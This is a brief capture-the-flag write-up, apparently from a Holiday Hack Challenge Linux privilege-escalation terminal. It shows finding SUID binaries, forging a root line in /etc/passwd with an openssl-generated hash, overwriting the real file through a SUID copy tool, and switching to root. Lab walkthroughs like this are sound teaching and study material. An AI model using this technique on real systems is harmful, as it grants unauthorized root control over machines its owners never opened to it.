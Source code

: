 https://hhc23-wetty.holidayhackchallenge.com/?&challenge=linuxpriv&username=hackadviser&id=58daae4d-079d-426c-8ca3-7d06b46a3e67&area=imt-ostrichsaloon&location=7,7&tokens=&dna=ATATATTAATATATATATATTATAATATATATCGATCGGCATATATATATATATATATATATATATATATTAATATCGTAATATATATATATGCATATATATATATATTATAATATATTA

```
elf@f74043c4c164:~$ find / -perm /4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
elf@f74043c4c164:~$ 
```

```

```

```


castr@mymac ~ % openssl passwd tiatrini
$1$X4ylqlqO$JuS88jywvn5diPjbgAzOK1

elf@59967030bc50:~$ cat > hola
root:$1$X4ylqlqO$JuS88jywvn5diPjbgAzOK1:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
elf:x:1000:1000::/home/elf:/bin/sh
elf@59967030bc50:~$ 
elf@59967030bc50:~$ simplecopy hola /etc/passwd
elf@59967030bc50:~$ su
Password: 
root@59967030bc50:/home/elf# 
```



## Referencias
https://gtfobins.github.io/
